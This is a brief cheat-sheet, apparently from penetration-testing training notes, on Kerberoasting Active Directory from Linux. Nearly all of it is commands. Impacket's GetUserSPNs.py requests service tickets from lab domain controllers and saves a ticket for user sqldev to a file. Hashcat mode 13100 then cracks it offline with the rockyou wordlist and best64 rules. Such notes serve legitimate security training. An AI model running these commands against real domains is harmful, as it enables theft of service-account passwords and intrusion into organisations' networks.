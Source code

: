 # Kerberoasting - from Linux

### **Kerberoasting with GetUserSPNs.py**

```markdown
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

### **Requesting all TGS Tickets**

```markdown
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

### **Requesting a Single TGS ticket**

```markdown
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

### **Saving the TGS Ticket to an Output File**

```markdown
 GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs

```

### **Cracking the Ticket Offline with Hashcat**

```markdown
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

### 

```markdown
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
